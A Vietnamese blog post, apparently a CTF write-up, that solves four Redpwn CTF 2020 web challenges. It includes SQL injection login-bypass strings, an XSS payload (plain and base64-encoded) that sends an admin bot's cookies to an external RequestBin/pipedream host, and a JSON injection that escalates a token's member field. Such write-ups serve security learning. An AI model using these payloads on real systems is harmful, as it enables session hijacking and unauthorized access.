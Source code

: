 ```yaml
---
layout: post
title: Redpwn CTF 2020 - Web
subtitle: Web Security - CTF
tags: [ctf, web]
image: /img/redpwn.png
share-img: /img/redpwn.png
---
```


Nhân ngày đẹp trời đồ án mọi thứ xong xuôi vào chơi [ctf](https://ctftime.org/) thì thấy giải này nên apply chơi .. và nhận ra giải cực kì hay và chất lượng `well-made challenges` !


# Inspector General
<details>
    <summary>Challenge Description</summary>
    My friend made a new webpage, can you find a flag?
</details>

Chall nhìn qua thì nghe có vẻ phức tạp nhưng chỉ cần view source là thấy `flag`.
Đi đến `view-source:https://redpwn.net/` sẽ thấy flag ở `dòng 7`.

![Inspector-flag](../img/26062020/1.png)

<details>
  <summary>FLAG</summary>
  
  flag{1nspector_g3n3ral_at_w0rk}
</details>
 
***

# Login

<details>
  <summary>Challenge Description</summary>
  
  I made a cool login page. I bet you can't get in!
<br />
  Site: login.2020.redpwnc.tf
</details>

Nhìn sơ qua có vẻ như là chèn `simple SQLi`, nên đã thử `user: admin & pwd: 1' or '1'='1` hoặc `user: admin'; /*` sẽ alert ra flag.

<!-- ![Login-flag](../img/26062020/2.png) -->
<img src="/img/26062020/2.png" alt="Login flag" align="center"/>

<details>
  <summary>FLAG</summary>
  
  flag{0bl1g4t0ry_5ql1}
</details>

***

# Static-Pastebin

<details>
  <summary>Challenge Description</summary>
  
 I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here
<br />
  Site: static-pastebin.2020.redpwnc.tf
<br />
  Note: The site is entirely static. Dirbuster will not be useful in solving it.
</details>

Chall này có thể hiểu theo cách đơn giản nhất là thông qua 2 sites của chall thì 1 site sẽ tạo URL và site còn lại upload URL kèm XSS đó lên và Bot Admin sẽ truy cập thông qua URL đó trả về cookie kèm theo flag. Chall này được gọi là DOM-XSS.

![Static-pastebin-site-1](../img/26062020/3.png)

Cứ mỗi khi mình tạo đoạn text sẽ có vài kí tự bị filter và hiển thị không như ý mình muốn, nên sẽ xem qua code js xem nó handles như thế nào...

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

Chúng ta có thể thấy khi create đoạn text lên site 1 sẽ bị decode bởi `atob()` và sau đó đi vào `clean()` nó sẽ không cho phép tạo ra đoạn text nếu như cú pháp từng dấu ngoặc không như ý nên sẽ không thực thi.. như vậy lúc này mình sẽ cố bypass qua đoạn này, lúc đầu mình nghĩ đến `HTML Entities` nhưng nó sẽ không thực thi được nên 1 lúc sau bypass được

```
><img src=1 href=1 onerror="javascript:document.location='https://[RequestBinURL]?cookie='+document.cookie"></img>
```

`RequestBin` là công cụ như `container request` cung cấp cơ chế trong đó server-side sẽ gọi đến client-side khi bắt một sự kiện nhất định nào đó.

Mình đến site thứ 2 và upload đoạn đã decode kèm theo XSS ở site 1 vào

```
https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPTEgaHJlZj0xIG9uZXJyb3I9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vZW5rbms4ZnppbGtscC54LnBpcGVkcmVhbS5uZXQ/Y29va2llPScrZG9jdW1lbnQuY29va2llIj48L2ltZz4=
```

Lúc này khi Admin Bot ghé thăm site vừa upload, đoạn mã XSS sẽ lấy cắp cookie của Admin Bot và gửi đến chính server của mình ở đây là [RequestBin](https://requestbin.com/) lúc này mình sẽ nhận lại đoạn request như thế này và kèm theo flag:

<!-- ![Static-pastebin-flag](../img/26062020/4.png) -->
<img src="/img/26062020/4.png" alt="Static pastebin flag" align="center"/>

<details>
  <summary>FLAG</summary>
  
  flag{54n1t1z4t10n_k1nd4_h4rd}
</details>


***

# panda-facts

<details>
  <summary>Challenge Description</summary>
  
I just found a hate group targeting my favorite animal. Can you try and find their secrets? We gotta take them down!

Site: panda-facts.2020.redpwnc.tf
Download: `index.js`
</details>

Thật ra ngay từ đầu vẫn chưa tìm ra hướng giải chỉ cắm cúi ngồi suy nghĩ về mấy function trong file index.js kia và có biết chút về NodeJS nhưng vẫn chưa mường tượng ra điều cần phải làm, nên đã hỏi thử tác giả thì hint rằng `Try to inject it`. Oh đến đây mới ngắm nghía lại đặc biệt là function này..

```javascript
async function generateToken(username) {
    const algorithm = 'aes-192-cbc'; 
    const key = Buffer.from(process.env.KEY, 'hex'); 
    // Predictable IV doesn't matter here
    const iv = Buffer.alloc(16, 0);

    const cipher = crypto.createCipheriv(algorithm, key, iv);

    const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`

    let encrypted = '';
    encrypted += cipher.update(token, 'utf8', 'base64');
    encrypted += cipher.final('base64');
    return encrypted;
}
```

Thật sự để ý vào structure để tạo token không phải `token.username = username` mà là theo form nhất định như này..

```javascript
const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`
```

Chỉ cần filter lại cho member khác 0, mình chỉ cần set lại username là `shinta","member":1,"user":"shinta` và truy cập vào `/api/flag`..

<!-- ```
{
  "success": true,
  "flag": "flag{1_c4nt_f1nd_4_g00d_p4nd4_pun}"
}
``` -->
<img src="/img/26062020/5.png" alt="Panda facts flag" align="center"/>

<details>
  <summary>FLAG</summary>
  
  flag{1_c4nt_f1nd_4_g00d_p4nd4_pun}
</details>

***